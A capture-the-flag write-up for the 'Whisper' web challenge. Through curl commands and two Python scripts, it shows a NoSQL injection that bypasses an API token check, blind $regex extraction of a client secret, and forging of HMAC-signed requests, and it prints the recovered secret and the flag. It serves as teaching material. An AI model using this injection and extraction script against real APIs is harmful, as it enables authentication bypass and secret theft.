



## Whisper

**Author**: Oxnoobsec

**Category**: web

**Description**: **Whisper** is a partner API gateway. Clients trade credentials for tokens, and privileged clients can _sign_ requests to internal endpoints. Only `report-signer` may export reports - and you don't have its secret.

Going to the website:



On `/docs` they explain the api:



On `/clients`:



report-signer has the `report:export` scope. 

`/docs` and `/clients` were the only endpoints on the page aside from `/static/hictf.css` and `/static/logo.png` which were not interesting. 

I found `/api/token` was vulnerable to nosql injection:
```shell
curl -s -X POST https://whisper-20b443dcac14.chall.hiddeninvestigations.net/api/token -H "Content-Type: application/json" -d '{"client_id":"report-signer","client_secret":{"$ne": null}}'  

{"access_token":"at_07ba4bb682afc468bfa07e24","token_type":"Bearer","client_id":"report-signer","scope":"read report:export"}
```
The backend passes `client_secret` straight into a mongoDB query without sanitizing. Sending an object instead of a string turns it into a query operator. `{"$ne": null}` means "secret is not null" which is always true so it bypasses the check. 

I could only get `/internal/export` to respond with this:
```shell
curl -s -X POST https://whisper-20b443dcac14.chall.hiddeninvestigations.net/internal/export -H "X-Client-Id: report-signer" -H "X-Timestamp: $(date +%s)" -H "X-Signature: deadbeef" -H "Content-Type: application/json" -d '{}'  

{"error":"signature mismatch","string_to_sign":"METHOD \\n PATH \\n CANONICAL_QUERY \\n HEX_SHA256(body) \\n X-Timestamp","signature":"lowercase hex of HMAC-SHA256(client_secret, string_to_sign)","canonical_query":"request query params sorted by key as 'k=v' joined by '&', or empty string if none"}
```

Eventually I realized I can use the regex operator to extract the full secret:
```shell
curl -s -X POST https://whisper-20b443dcac14.chall.hiddeninvestigations.net/api/token -H "Content-Type: application/json" -d '{"client_id":"report-signer","client_secret":{"$regex":"^."}}'  

{"access_token":"at_10cbd8aedf06128c8951e7a2","token_type":"Bearer","client_id":"report-signer","scope":"read report:export"}
```
This is a working oracle. If the server responds with an access token then I found the next character in the secret (depending on the regex sent).

I ran this script which will extract the length of the secret, then the full secret using the regex operator and a binary search:
```python
import requests, hmac, hashlib, time, string

BASE = "https://whisper-20b443dcac14.chall.hiddeninvestigations.net"
CHARSET = list(string.ascii_letters + string.digits + "_-+/=")
SESSION = requests.Session()

def matches(regex):
    r = SESSION.post(f"{BASE}/api/token", json={
        "client_id": "report-signer",
        "client_secret": {"$regex": regex}
    })
    return "access_token" in r.json()

def esc_class(chars):
    # build a safe regex character class from a list of chars
    specials = set("]\\^-")
    return "[" + "".join(("\\" + c if c in specials else c) for c in chars) + "]"

# find length
length = None
for n in range(1, 65):
    if matches(f"^.{{{n}}}$"):
        length = n
        break
print("length:", length)

secret = ""
for i in range(length):
    lo, hi = 0, len(CHARSET)
    while hi - lo > 1:
        mid = (lo + hi) // 2
        subset = CHARSET[lo:mid]
        cls = esc_class(subset)
        if matches(f"^{secret}{cls}"):
            hi = mid
        else:
            lo = mid
    secret += CHARSET[lo]
    print("partial:", secret)

print("Recovered Secret:", secret)

method, path, query = "POST", "/internal/export", ""
body = "{}"
body_hash = hashlib.sha256(body.encode()).hexdigest()
ts = str(int(time.time()))
string_to_sign = f"{method}\n{path}\n{query}\n{body_hash}\n{ts}"
sig = hmac.new(secret.encode(), string_to_sign.encode(), hashlib.sha256).hexdigest()

r = SESSION.post(f"{BASE}/internal/export",
    headers={
        "X-Client-Id": "report-signer",
        "X-Timestamp": ts,
        "X-Signature": sig,
        "Content-Type": "application/json"
    },
    data=body)
print(r.status_code, r.text)
```

Output:
```shell
python3 solve.py  
length: 32  
partial: 1  
partial: 12  
partial: 124  
partial: 1245  
partial: 12455  
partial: 124555  
partial: 1245555  
partial: 1245555b  
partial: 1245555b9  
partial: 1245555b92  
partial: 1245555b92d  
partial: 1245555b92db  
partial: 1245555b92db4  
partial: 1245555b92db47  
partial: 1245555b92db471  
partial: 1245555b92db4714  
partial: 1245555b92db4714d  
partial: 1245555b92db4714d4  
partial: 1245555b92db4714d47  
partial: 1245555b92db4714d478  
partial: 1245555b92db4714d4784  
partial: 1245555b92db4714d47846  
partial: 1245555b92db4714d478467  
partial: 1245555b92db4714d4784674  
partial: 1245555b92db4714d47846743  
partial: 1245555b92db4714d478467432  
partial: 1245555b92db4714d4784674323  
partial: 1245555b92db4714d4784674323e  
partial: 1245555b92db4714d4784674323e0  
partial: 1245555b92db4714d4784674323e0c  
partial: 1245555b92db4714d4784674323e0ce  
partial: 1245555b92db4714d4784674323e0ce2  
Recovered Secret: 1245555b92db4714d4784674323e0ce2  
401 {"error":"replay protection: the signature covers one more line","hint":"add an X-Nonce header (any unique value) AND append it as a final LF-separated line to the string-to-sign, then re-sign"}
```
The request to get the flag did not work. It responds with a 401. However it did recover the secret. The final request needs the `X-Nonce` header which was not mentioned before. 

I ran this to make a successful request to `/internal/export` and get the flag:
```python
import requests, hmac, hashlib, time, uuid

BASE = "https://whisper-20b443dcac14.chall.hiddeninvestigations.net"
secret = "1245555b92db4714d4784674323e0ce2"

method, path, query = "POST", "/internal/export", ""
body = "{}"
body_hash = hashlib.sha256(body.encode()).hexdigest()
ts = str(int(time.time()))
nonce = str(uuid.uuid4())

string_to_sign = f"{method}\n{path}\n{query}\n{body_hash}\n{ts}\n{nonce}"
sig = hmac.new(secret.encode(), string_to_sign.encode(), hashlib.sha256).hexdigest()

r = requests.post(f"{BASE}/internal/export",
    headers={
        "X-Client-Id": "report-signer",
        "X-Timestamp": ts,
        "X-Nonce": nonce,
        "X-Signature": sig,
        "Content-Type": "application/json"
    },
    data=body)
print(r.status_code, r.text)
```

Response:
```shell
200 {"ok":true,"report":"export authorized","flag":"hiCTF{bl1nd_regex_3xfil_then_f0rge_the_cust0m_s1gner_4b4ff29a69}"}
```

`hiCTF{bl1nd_regex_3xfil_then_f0rge_the_cust0m_s1gner_4b4ff29a69}`
